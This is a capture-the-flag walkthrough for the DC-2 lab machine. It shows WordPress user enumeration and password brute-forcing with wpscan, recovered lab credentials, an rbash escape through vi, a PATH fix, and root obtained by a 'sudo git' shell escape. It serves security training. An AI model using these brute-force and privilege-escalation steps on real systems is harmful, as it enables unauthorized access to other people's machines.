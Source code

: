 # DC - 2

nmap enumeration

![](../../.gitbook/assets/1111111111111111%20%2817%29.png)

finding webapp directories

![](../../.gitbook/assets/1111111111111111%20%2820%29.png)

the output indicates that we have wp-admin directory so this is a wordpress CMS

add dc-2 to /etc/hosts of your kali machine to browse the webapp 

![](../../.gitbook/assets/1111111111111111%20%288%29.png)

check out all pages for anything useful

![](../../.gitbook/assets/1111111111111111%20%285%29.png)

create a wordlist using cewl command:

```text
cewl -m 4 -e -w wordlist http://dc-2
```

enumerate usernames with wpscan:

```text
wpscan --url http://dc-2  --enumerate u --force --wp-content-dir wp-content 
```

![](../../.gitbook/assets/1111111111111111%20%286%29.png)

userlist:

```text
admin
tom
jerry
```

now lets brute force these acounts with the wordlist

```text
wpscan --url http://dc-2 --passwords wordlist  --usernames userlist -t 25
```

![](../../.gitbook/assets/1111111111111111.png)

jerry : adipiscing

 tom : parturient

lets try ssh \( port 7744\)



![](../../.gitbook/assets/1111111111111111%20%2815%29.png)

we have an rbash we need to escape from it

echo $path

![](../../.gitbook/assets/1111111111111111%20%2810%29.png)

we have less, ls, scp and vi

we can escape the shell through vi command:

```text
vi
:set shell=/bin/bash
:shell
```

```text
less flag3.txt
```

![](../../.gitbook/assets/1111111111111111%20%2811%29.png)

so we need to su to jerry

su is not available for us so we should fix the $PATH variable

fix the path problem

```text
export PATH=/bin:/usr/bin:$PATH
```

su jerry

![](../../.gitbook/assets/1111111111111111%20%2812%29.png)

now we need r00t:

![](../../.gitbook/assets/1111111111111111%20%2819%29.png)

we can sudo git without password

use gtfobins instructions for this privesc method:

```text
sudo git -p help config
!/bin/sh
```

![](../../.gitbook/assets/1111111111111111%20%283%29.png)

done !













